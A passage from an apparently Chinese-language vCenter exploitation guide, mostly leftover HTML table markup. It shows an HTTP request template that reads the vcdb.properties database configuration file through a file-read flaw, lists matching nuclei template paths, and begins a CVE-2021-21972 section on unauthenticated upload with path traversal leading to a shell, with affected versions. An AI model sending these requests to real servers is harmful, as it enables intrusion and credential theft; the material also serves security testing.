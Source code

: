 <table><tbody style="outline: 0px;"><tr style="outline: 0px;background: rgb(245, 245, 245);border-width: initial !important;border-style: none !important;border-color: initial !important;"><td style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;min-width: 1.6rem;text-align: right;border-width: initial !important;border-style: none !important;border-color: initial !important;"><pre tabindex="0" style="padding-top: 0.25rem;padding-bottom: 0.25rem;padding-left: 0.5rem;outline: 0px;font-size: 1em;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: monospace, monospace;"><code style="outline: 0px;font-size: 0.9rem;display: inline-block;color: rgb(231, 76, 60);background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: Monaco, Consolas, Menlo, monospace;"><span style="outline: 0px;font-size: 15px;color: rgb(169, 169, 179);">1 2</span></code></pre></td><td style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;border-width: initial !important;border-style: none !important;border-color: initial !important;"><pre tabindex="0" style="padding-top: 0.25rem;padding-bottom: 0.25rem;padding-left: 0.5rem;outline: 0px;font-size: 1em;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;min-width: max-content;font-family: monospace, monospace;"><code data-lang="http" style="outline: 0px;font-size: 0.9rem;display: inline-block;color: rgb(231, 76, 60);background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: Monaco, Consolas, Menlo, monospace;"><span style="outline: 0px;font-size: 15px;"><span style="outline: 0px;color: rgb(43, 119, 250);">GET</span> <span style="outline: 0px;color: rgb(43, 119, 250);">/eam/vib?id={{path}}\vcdb.properties</span> <span style="outline: 0px;color: rgb(181, 1, 169);">HTTP</span><span style="outline: 0px;color: rgb(241, 155, 4);">/</span><span style="outline: 0px;color: rgb(226, 137, 60);">1.1</span> <span style="outline: 0px;color: rgb(51, 51, 51);">Host</span><span style="outline: 0px;color: rgb(241, 155, 4);">:</span> <span style="outline: 0px;color: rgb(42, 161, 152);">{{Hostname}}</span></span></code></pre></td></tr></tbody></table>  
nuclei 中对应的 poc：  
  
/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi.yaml  
  
/nuclei-templates/vulnerabilities/vmware/vmware-vcenter-lfi-linux.yaml  
### 2.3 CVE-2021-21972  
#### 2.3.1 漏洞利用  
  
默认启用的 vROps 插件（com.vmware.vropspluginui.mvc）ServicesController 类的 uploadova 接口存在未授权访问，可利用路径穿越将文件解压至特定目录实现 getshell。  
  
影响版本：  
  
7.0 <= vCenter Server < 7.0 U1c  
  
6.7 <= vCenter Server < 6.7 U3l  
  
6.5 1e <= vCenter Server < 6.5 U3n  
  
4.x <= Cloud Foundation (vCenter Server) < 4.2  
  
3.x <= Cloud Foundation (vCenter Server) < 3.10.1.2  
  